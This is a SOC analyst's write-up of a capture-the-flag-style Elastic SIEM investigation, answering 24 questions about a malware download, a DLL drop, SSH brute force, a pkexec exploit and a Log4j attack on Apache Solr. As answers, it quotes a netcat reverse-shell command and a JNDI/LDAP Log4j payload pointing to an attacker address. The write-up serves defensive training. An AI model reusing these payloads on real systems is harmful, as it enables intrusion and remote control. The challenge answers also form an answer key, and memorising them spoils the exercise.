


# Elastic Case Writeup 
--------------------------------------------------------------------

## **Scenario**

An attacker was able to trick an employee into downloading a suspicious file and running it. The attacker compromised the system, along with that, The Security Team did not update most systems. The attacker was able to pivot to another system and compromise the company. As a SOC analyst, you are assigned to investigate the incident using Elastic as a SIEM tool and help the team to kick out the attacker.


## **Walkthrough**


We see we have multiple indexes...



```
winlogbeat: Ships Windows event logs to Elasticsearch
packetbeat: Ships analyzed network packet data to Elasticsearch
filebeat:  Monitors specified log files or locations, collects log events, and forwards them to Elasticsearch
auditbeat: Audit the activities of users and processes on your systems and sends analyzed event data to ElasticSearch
```

Let's check out our log sources...


Winlogbeat is installed on a Windows system with hostname `DESKTOP-Q1SL9P2` 

On the other hand, packetbeat, filebeat and auditbeat are installed on two linux host running CentOS and Ubuntu


**Question 1**
```
Who downloads the malicious file which has a double extension?
```

We will first filter for `FileCreate`events and then check the process that created it under *process.executable* remove false positives like elastic-endpoint.exe etc. After applying the filter `file.name: *.*.*` we are left with a much smaller subset in which **Acount_details.pdf.exe** standout.


Next searching only with `*Acount_details.pdf.exe*`  filter reveals that it was downloaded by *ahmed* using msedge browser


**Question 2**
```
What is the hostname he was using?
```

Already answered :)

**Question 3**
```
What is the name of the malicious file?
```

The malicious file would be *Acount_details.pdf.exe*

**Question 4**
```
What is the attacker's IP address?
```

After reviewing events around the same time with *Acount_details.pdf.exe* filter applied we that the downloaded file is copied to Dekstop of *cybery* user


Next from the cybery user is seen to create the process (*process id*: 12460) implying the exe is run --> followed by an malware alert from Elastic Security --> followed by network communications and registry key changes.


Look into the registry value changes we find that the following registry keys are being set.


Looking into the network data by looking only into *event.action: Network connection detected (rule: NetworkConnect)* we create an aggregation to find that the malware has attempted to connect to these IPs via ssh and https. It first makes a no of connections to port 443 on *192.168.1.10* and after some time repeated connections to port 22 on *192.168.10.30*


**Question 5**
```
Another user with high privilege runs the same malicious file. What is the username?
```

It would be user *cybery*

**Question 6**
```
The attacker was able to upload a DLL file of size 8704. What is the file name?
```

So we are looking for Filecreation events ending with *.dll*  After applying *event.action: File created (rule: FileCreate)* filter we see two dlls being dropped into the %temp% directory out of which *mCblHDgWP.dll* is the intended malicious dll.


Even if we go by the investigation timeline we can see that the malicious process is doing local reconaissance - *whoami & gpedit.msc* and finally it drops a malicioud DLL on disk.


To get more context let's view if at all from the Elastic EDR, and we indeed see a critical alert wrt our malicious dll.


There's another alert for possible privilege escalation via **Named Pipe impersonation** around the same time.


**Question 7**
```
What parent process name spawns cmd with NT AUTHORITY privilege and pid 10716?
```

Applying the filter *process.pid: "10716"* it is quite evident that the parent process would be rundll32.exe with process id *8856*.


**Question 8**
```
The previous process was able to access a registry. What is the full path of the registry?
```

Now that we know the process id of cmd.exe is *10716*, let's check its activity of the corresponding child processes using the filter *process.parent.pid : 10716*. We understand cmd is being spawned (with pid 8856). 


To review activity of the cmd process created we use the filter `process.pid: 8856` , and observe that this process makes an outbound (egress) connection to the attacker IP on port no 4444 (a reverse shell)


Moving to the **Alerts** section and filtering with *process.pid: 10716* we can see multiple alerts, let's analyze one of them


Using the analyzer we can very easily understand the registry being accessed by rundll32.exe


**Question 9**
```
PowerShell process with pid 8836 changed a file in the system. What was that filename?
```

Using the logs-* index, we search using the filter *process.name: "powershell.exe" and process.pid : 8836* and observed an Endpoint file event of type "overwrite" 


**Question 10**
```
PowerShell process with pid 11676 created files with the ps1 extension. What is the first file that has been created?
```

Using the filter *process.pid: 11676*  we can easily identify the ps1 file created


**Question 11**
```
What is the machine's IP address that is in the same LAN as a windows machine?
```

In this case we are talking about the other linux host - *192.168.10.30*

**Question 12**
```
The attacker login to the Ubuntu machine after a brute force attack. What is the username he was successfully login with?
```

In order to get ssh logs we will switch over to *filebeat* index and use the filter *system.auth.ssh.event : "Failed"  or system.auth.ssh.event:"Accepted"* 



We see that the attacker was able to login as *salem* user

**Question 13**
```
After that attacker downloaded the exploit from the GitHub repo using wget. What is the full URL of the repo?
```

Switching over to *auditbeat* logs, we simply search with wget and after removing false positives we find references to exploit downloaded from github


 
 

From the exploit itself it is evident that *pkexec* process will be spawned.
 
**Question 14**
```
After The attacker runs the exploit, which spawns a new process called pkexec, what is the process's md5 hash?
```

Just searching for pkexec file hash on google gives us the answer.


**Question 15**
```
Then attacker gets an interactive shell by running a specific command on the process id 3011 with the root user. What is the command?
```

Interestingly *process.pid: 3011* did not give me any results but however looking at events around the time interval we observe multiple references to bash, so for upgrading to a tty shell the best guess would be *bash -i*


**Question 16**
```
What is the hostname which alert signal.rule.name: "Netcat Network Activity"?
```

We can look into one of the alerts in the alert section and the host is *CentOS*


**Question 17**
```
What is the username who ran netcat?
```

A simple search using the filter `host.name: "CentOS" and *nc*` reveals that netcat was run as user *solr* which initiates a reverse shell from the current machine (*192.168.30.10*) back to the attacker host. It is to be kept in mind that Apache Solr is usually run under the context of the *solr* user 

**Question 18**
```
What is the parent process name of netcat?
```


We observe that netcat has a ppid of *3556* so lets change the filter a bit to *host.name: "CentOS" and process.pid: 3556* and we observe that the parent process is *Java* run by user *solr* which even corresponds with the process working directory. Seems like the attacker was able to expolit Apache Solr and obtain reverse shell back to his machine.


**Question 19**
```
If you focus on nc process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command?
```

Answer is quite evident from question 18 - *nc -e /bin/bash 192.168.1.10, 9999*

**Question 20**
```
From the previous three questions, you may remember a famous java vulnerability. What is it?
```

In all it definitely hints towards log4j and looking into *process.args* wrt to the java process in *Question 18* there are hints towards the same.


**Question 21**
```
What is the entire log file path of the "solr" application?
```

After a quick google understood that Solr logs are stored in a file known as solr.log, after heading over to filebeat a search using a filter *solr.log* and we find the log file path


**Question 22**
```
What is the path that is vulnerable to log4j?
```

In order to find the path we need to find the actual GET request with the payload, we move over to auditbeat and search using the filter *jndi* and we obtain the path


**Question 23**
```
What is the GET request parameter used to deliver log4j payload?
```

From the previous question its evident parameter used is *foo*


**Question 24**
```
What is the JNDI payload that is connected to the LDAP port?
```

The JNDI payload that connected to the LDAP port is - *{foo=${jndi:ldap://192.168.1.10:1389/Exploit}}*